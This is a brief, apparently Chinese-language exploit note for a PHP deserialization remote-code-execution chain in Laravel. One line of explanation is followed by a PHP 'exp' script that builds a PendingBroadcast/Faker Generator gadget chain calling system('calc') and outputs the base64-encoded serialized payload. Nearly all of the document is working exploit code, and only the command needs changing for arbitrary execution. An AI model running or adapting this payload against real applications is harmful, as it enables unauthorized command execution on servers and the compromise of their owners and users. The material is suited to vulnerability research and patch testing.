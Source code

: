 > 由于 `getFormatter()` 方法中的 `$this->formatters[$formatter]` 是可控的并直接 return 回上一层，因此可以利用该可控参数来进行命令执行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 =  new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
?>
```

<img src="./images/poc-1-3.png" alt="">
